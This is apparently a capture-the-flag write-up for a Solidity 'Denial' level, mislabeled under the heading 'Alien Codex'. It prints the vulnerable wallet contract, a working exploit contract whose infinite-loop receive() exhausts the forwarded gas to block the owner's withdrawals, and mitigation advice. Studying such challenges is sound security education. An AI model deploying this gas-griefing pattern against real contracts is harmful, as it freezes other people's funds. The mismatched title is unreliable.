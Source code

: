 # Alien Codex

## Challenge Description

This is a simple wallet that drips funds over time. You can withdraw the funds slowly by becoming a withdrawing partner.

If you can deny the owner from withdrawing funds when they call `withdraw()` (whilst the contract still has funds, and the transaction is of 1M gas or less) you will win this level.

## Challenge Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Denial {
    address public partner;
    address public constant owner = address(0xA9E);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances;

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    function withdraw() public {
        uint amountToSend = address(this).balance / 100;
        partner.call{ value: amountToSend }("");
        payable(owner).transfer(amountToSend);
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] += amountToSend;
    }

    receive() external payable {}

    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

## Challenge Solution Walkthrough

In the `withdraw()` function, a low-level `call` function is used, which forwards `63/64` of the available gas to the external contract. However, it's important to note that if all of the forwarded gas is consumed during the execution, the remaining `1/64` amount of gas may not be sufficient to complete the computation.

To exploit this vulnerability, we can deploy a separate contract that interacts with the target contract. Here is the contract code for the exploit contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Denial.sol";

contract DenialSolution {
    Denial public denial;

    constructor(address denialAddress) {
        denial = Denial(payable(denialAddress));
    }

    function solveChallenge() public {
        denial.setWithdrawPartner(address(this));
        denial.withdraw();
    }

    receive() external payable {
        while (true) {}
    }
}
```

In this contract, when the `solveChallenge()` function is called, we set the exploit contract as the "partner" of the target contract by invoking the `setWithdrawPartner()` function. Then, when the `withdraw()` function is called, it executes the line of code `partner.call{value: amountToSend}("");`, which triggers the `receive()` function in our exploit contract and consumes `63/64` of the total gas available. Inside the `receive()` function, an infinite loop is used to consume all available gas, preventing the execution from completing.

As a result, no other party can successfully call the `withdraw()` function because the remaining `1/64` amount of gas is not sufficient to finish the computation, effectively denying access to the funds.

By deploying the exploit contract and calling the `solveChallenge()` function, we successfully exploit the vulnerability and prevent anyone else from withdrawing funds from the target contract.

Congratulations! You have successfully completed the challenge.

## Challenge Description After Solving

This level demonstrates that external calls to unknown contracts can still create denial of service attack vectors if a fixed amount of gas is not specified.

If you are using a low level `call` to continue executing in the event an external call reverts, ensure that you specify a fixed gas stipend. For example `call.gas(100000).value()`.

Typically one should follow the [checks-effects-interactions](http://solidity.readthedocs.io/en/latest/security-considerations.html#use-the-checks-effects-interactions-pattern) pattern to avoid reentrancy attacks, there can be other circumstances (such as multiple external calls at the end of a function) where issues such as this can arise.

_Note_: An external `CALL` can use at most 63/64 of the gas currently available at the time of the `CALL`. Thus, depending on how much gas is required to complete a transaction, a transaction of sufficiently high gas (i.e. one such that 1/64 of the gas is capable of completing the remaining opcodes in the parent call) can be used to mitigate this particular attack.
